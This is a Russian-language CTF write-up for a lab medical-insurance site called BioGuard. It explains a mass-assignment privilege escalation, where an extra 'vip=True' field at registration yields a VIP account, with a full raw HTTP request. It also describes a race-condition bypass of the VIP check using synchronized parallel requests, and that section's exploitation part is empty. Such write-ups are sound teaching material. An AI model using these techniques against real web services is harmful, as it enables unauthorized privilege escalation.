

# Writeup

## Введение
Сервис BioGuard - это сайт частной страховой компании, которая предоставляет различные медицинские услуги. Пациент регистрируется, логинится, получает доступ к профилю, в котором есть возможность выбрать услугу и записаться на прием.
Во время записи можно заметить, что у некоторых услуг в названии есть пометка "VIP". Такие услуги для записи доступны только пациентам с таким же статусом - VIP. 

## Уязвимости

### Privilege escalation
При попытке записаться на vip услугу пациент получает сообщение "This service is only for vip!" из чего можно сделать вывод, что таким статусом он не обладает. Но как его получить?
Если обратиться к коду, то можно заметить, что в форме PatientForm присутствует поле vip. И если передать его при регистрации равным True, можно получить себе привилегированного пациента. При записи пациента на vip услугу в его профиле отобразится флаг.

#### Эксплуатация
```
POST /register HTTP/1.1
Host: 127.0.0.1:4444
Content-Length: 132
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: ru-RU,ru;q=0.9
Origin: http://127.0.0.1:4444
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:4444/register
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=vPiKi3vpUahoc1PQItg9TAB2pVEznI2n
Connection: keep-alive

csrfmiddlewaretoken=kxg20E47lIRyh2BpzF8CM1f2MaQydcY1FcoC8xpm5IYMjTg57YeBvrGU1VkXqKQe&username=user2&password1=1&password2=1&vip=True
```
[эксплойт](../exploits/exploit1.py "")

### Race Condition
Но чтобы записаться на vip услугу не обязательно иметь соотвествующий статус. Достаточно создать несколько запросов записи на данную услугу и один запрос на услугу доступную для текущего пациента, затем отправить их параллельно с синхронизацией по последнему байту. Ограничение по статусу пациента удастся обойти, а в профиле появится флаг.

#### Эксплуатация

